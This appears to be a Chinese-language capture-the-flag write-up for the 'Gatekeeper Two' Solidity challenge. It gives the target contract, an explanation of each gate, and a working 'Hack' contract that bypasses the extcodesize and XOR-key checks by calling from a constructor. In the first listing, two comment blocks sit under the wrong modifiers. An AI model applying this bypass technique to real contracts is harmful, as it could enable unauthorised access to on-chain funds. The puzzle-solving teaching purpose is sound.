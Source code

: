 # Gatekeeper Two
## 題目
<img width="634" alt="截圖 2024-09-13 下午1 46 42" src="https://github.com/user-attachments/assets/06f68614-cef0-4b60-acd3-5615b0079380">

這個題目來自 Gatekeeper Two，要求是通過三個 Gate（`gateOne`、`gateTwo` 和 `gateThree`）來進入合約。目標是成功調用 `enter` 函數，並將 `entrant` 設置為我們的地址（`tx.origin`）。

## 合約
```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

contract GatekeeperTwo {
    address public entrant;

    modifier gateOne() {
        require(msg.sender != tx.origin);
        _;
    }
    // 使用了內聯匯編檢查當前合約的 extcodesize 是否為 0。這個檢查的目的是防止合約在部署之後調用它。當合約的構造函數運行時，合約的代碼尚未完全寫入鏈上，因此 extcodesize 在構造函數中會是 0。我們可以利用這一點，通過在合約的構造函數中調用 enter 函數來繞過這個檢查。

    modifier gateTwo() {
        uint256 x;
        assembly {
            x := extcodesize(caller())
        }
        require(x == 0);
        _;
    }
    // msg.sender 必須與 tx.origin 不同，這意味著我們需要通過合約來調用 enter 函數，而不能直接用外部帳戶來調用。因此，我們必須寫一個合約來觸發 enter 函數。

    modifier gateThree(bytes8 _gateKey) {
        require(uint64(bytes8(keccak256(abi.encodePacked(msg.sender)))) ^ uint64(_gateKey) == type(uint64).max);
        _;
    }
    // 這裡要求我們提供的 _gateKey 必須與 (uint64(bytes8(keccak256(abi.encodePacked(msg.sender)))) ^ uint64(_gateKey)) == type(uint64).max 這個條件相符。
    // 這是一個 XOR 運算，uint64 的最大值是 2^64 - 1，也就是 type(uint64).max。
    // 透過位運算的特性，如果 a ^ b = max，則 b = a ^ max。因此，`_gateKey 可以通過 msg.sender 的哈希值與 type(uint64).max 進行 XOR 計算得到。

    function enter(bytes8 _gateKey) public gateOne gateTwo gateThree(_gateKey) returns (bool) {
        entrant = tx.origin;
        return true;
    }
}
```

## Hack
```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

interface IGateKeeperTwo {
    function entrant() external view returns (address);
    function enter(bytes8) external returns (bool);
}

contract Hack {
    constructor(IGateKeeperTwo target) {
        // Bitwise xor
        // a     = 1010
        // b     = 0110
        // a ^ b = 1100

        // a ^ a ^ b = b

        // a     = 1010
        // a     = 1010
        // a ^ a = 0000

        // max = 11...11
        // s ^ key = max
        // s ^ s ^ key = s ^ max 
        //         key = s ^ max 
        uint64 s = uint64(bytes8(keccak256(abi.encodePacked(address(this)))));
        uint64 k = type(uint64).max ^ s;
        bytes8 key = bytes8(k);
        require(target.enter(key), "failed");
    }
}

contract GatekeeperTwo {
    address public entrant;

    modifier gateOne() {
        require(msg.sender != tx.origin);
        _;
    }

    modifier gateTwo() {
        uint256 x;
        assembly {
            x := extcodesize(caller())
        }
        require(x == 0);
        _;
    } 
    modifier gateThree(bytes8 _gateKey) {
        require(uint64(bytes8(keccak256(abi.encodePacked(msg.sender)))) ^ uint64(_gateKey) == type(uint64).max);
        _;
    }

    function enter(bytes8 _gateKey) public gateOne gateTwo gateThree(_gateKey) returns (bool) {
        entrant = tx.origin;
        return true;
    }
}
```
### Step：
1. **gateOne**：由於 `Hack` 合約調用 `enter`，所以 `msg.sender` 是 `Hack` 合約的地址，而 `tx.origin` 是攻擊者的外部帳戶，滿足 `msg.sender != tx.origin` 的條件。
2. **gateTwo**：因為合約在構造函數中調用 `enter`，此時 `extcodesize(caller()) == 0`，滿足 `gateTwo` 的條件。
3. **gateThree**：我們計算 `_gateKey` 的方法是先獲取 `msg.sender` 的哈希值，然後使用 XOR 運算得到正確的 key。通過 `uint64(msg.sender 的哈希值) ^ uint64(_gateKey) == type(uint64).max` 這個公式，我們可以求得正確的 `_gateKey`。

